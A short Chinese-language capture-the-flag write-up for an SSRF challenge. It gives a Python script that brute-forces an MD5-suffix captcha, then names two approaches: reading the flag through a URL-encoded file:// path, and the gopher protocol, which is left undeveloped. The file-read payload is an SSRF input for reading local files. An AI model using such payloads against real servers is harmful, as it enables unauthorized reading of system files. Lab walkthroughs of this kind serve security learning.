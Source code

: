 # 题目名称-SSRF Me
![](vx_images/410846557838235.png)
```
substr(md5(captcha), -6, 6) == "d12831"
```
取末六位的字符比较,虽然是弱比较,但这里是字符开头,无法绕过,
验证码应该是数字,不然难以碰撞,python脚本如下:
```
from hashlib import md5

target = "d12831"
captcha = 0
max_attempts = 10_000_000  # 设定最大尝试次数

while captcha <= max_attempts:
    hash_value = md5(str(captcha).encode()).hexdigest()  # 计算MD5哈希
    suffix = hash_value[-6:]  # 截取后6位
    if suffix == target:
        print("Found:", captcha)
        break
    captcha += 1

```
然后有两种思路
1.直接file协议读取
file:///%66%6c%61%67(flag)
2.gopher协议